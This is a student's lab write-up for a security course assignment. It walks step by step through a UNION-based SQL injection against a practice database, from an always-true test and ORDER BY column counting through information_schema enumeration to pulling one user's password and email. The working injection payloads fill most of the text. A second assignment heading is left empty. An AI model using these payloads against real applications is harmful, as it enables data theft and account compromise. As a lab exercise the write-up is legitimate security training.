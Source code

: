 ```yaml
---
title: "Week 6 - Assignment"
date: 2025-05-29
categories: [assignment]
layout: single
author_profile: true
sidebar:
  nav: "main"
read_time: true
toc: true
toc_label: "On this page"
toc_sticky: true
---
```


# Assignment 6 - 1 / Extracting Only doldol's Data

## (1). Identify the SQL Injection point
   
![스크린샷 2025-05-29 120037](https://github.com/user-attachments/assets/a7bf66d0-a58e-470b-b149-ac64d4603cd6)

By injecting a condition that always returns true (' OR '1'='1), all user accounts were displayed, confirming that the input is directly inserted into the SQL query.

## (2) Use ORDER BY to find the number of columns

Try injecting:

```
1234' order by [num] #
```

![image](https://github.com/user-attachments/assets/5bac249a-d89f-431d-8ddd-eed745916420)

- No error occurs for Order by 1 to 4
- However order by 5 makes the error
  
This tells us that the query has exactly 4 columns, since trying to sort by a non-existent fifth column causes a failure.

## (3) Use UNION SELECT to determine which columns are displayed

![image](https://github.com/user-attachments/assets/192e5e74-9c6b-4b59-be53-ab9bb6cd305c)

Each number (1, 2, 3, 4) is displayed in a different column on the page.
This confirms that **all four columns** are reflected in the output, meaning we can use any of them to display extracted data later (like usernames, emails, flags, etc.).


## (4) Use database() to find the current database name

![image](https://github.com/user-attachments/assets/e91cf7b5-2d25-409c-a2bb-c9815ce61339)

Try injecting:

```
1234' union select datbase(), 2, 3, 4#
```
The name of database is "segfault_sql"	


## (5) Use information_schema.tables to list all table names

![image](https://github.com/user-attachments/assets/45460560-556b-4688-ae25-27218c0a758c)

Try injecting:

```
1234' union select table_name, 2, 3, 4 from information_schema.tables where table_schema='segfault_sql' #
```
The names of the tables are **game, member, secret and secret_member**.

## (6) Use information_schema.columns to list all column names



Try injecting:

```
1234' union select column_name, 2, 3, 4 from information_schema.columns where table_name = 'member' #
```
The names of the coulmns in **member** table are **user_id, user_pass,	name, user_level, info ,id, pass and email**.



## (7) Finally, use UNION SELECT to extract the data

![image](https://github.com/user-attachments/assets/735d9c72-d0b8-49e1-8f4d-a430dda46d0c)
```
1234' union select id, pass, email, info from member #
```

For getting only doldol's data we fix the payload
```
' union select id, pass, email, info from member where id='doldol' #
```

Result:

![image](https://github.com/user-attachments/assets/dbda74c3-e0f9-4c40-a20f-c9cc8297b36b)






---

# Assignment 6 - 2 / CTF SQL Injection 1








